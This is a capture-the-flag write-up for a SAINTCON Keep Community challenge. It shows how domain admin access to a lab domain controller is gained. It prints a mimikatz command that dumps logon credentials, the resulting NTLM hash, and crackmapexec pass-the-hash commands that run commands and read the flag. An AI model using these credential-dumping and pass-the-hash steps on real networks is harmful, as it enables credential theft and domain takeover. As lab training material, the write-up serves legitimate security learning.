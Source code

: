 # DC

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Please Visit the HACKERS CHALLENGE BOOTH to spinup an environment for you!

This environment will be good for 3 hours.

(due to monetary costs, we won't keep it running longer, but can spin you up a new environement when you need it)

========================================

Welcome to the Keep!

You have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

Last we were on the admin account of **WS02**. We have developed some techniques
to get into these machines. Let's start from the top and try it again here. 

Let's put `mimikatz` on **WS02** and see what happens:

```cmd
$ mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
...
...
Authentication Id : 0 ; 327706 (00000000:0005001a)
Session           : RemoteInteractive from 3
User Name         : zonifer
Domain            : HC
Logon Server      : DC
Logon Time        : 10/27/2023 4:47:59 AM
SID               : S-1-5-21-636138077-4214483599-707087073-1114
        msv :
         [00000003] Primary
         * Username : zonifer
         * Domain   : HC
         * NTLM     : 30495291d31d1aaa33739e374f48ee21
         * SHA1     : 6097e27d82087fdf2f8a8d399a9cbc6cdbd27125
         * DPAPI    : cc5fc7bc2f4f0e4a781cc305758ffeb4
        tspkg :
        wdigest :
         * Username : zonifer
         * Domain   : HC
         * Password : (null)
        kerberos :
         * Username : zonifer
         * Domain   : HC.LOCAL
         * Password : (null)
        ssp :
        credman :
...
...
```

Oh _zonifer_, I remember you from the user enumeration in the first challenge. I
knew we were going to be friends someday:

```json
...
...
 "cn": [
        "Domain Admins"
    ],
    "description": [
        "Designated administrators of the domain"
    ],
    "distinguishedName": [
        "CN=Domain Admins,CN=Users,DC=hc,DC=local"
    ],
    "member": [
        "CN=zonifer,CN=Users,DC=hc,DC=local",
        "CN=Administrator,CN=Users,DC=hc,DC=local"
    ],
    ...
    ...
...
...
```

I also like that zonifer is a domain admin... 

Let's go back to our `crackmapexec` tool that worked last time:

```bash
crackmapexec smb DC/32 -u zonifer -d HC -H 30495291d31d1aaa33739e374f48ee21 -x dir
```

And success!

Now we can read the flag:

```bash
crackmapexec smb DC/32 -u zonifer -d HC -H 30495291d31d1aaa33739e374f48ee21 -x type C:\\Users\\zonifer\\Desktop\\flag.txt
```


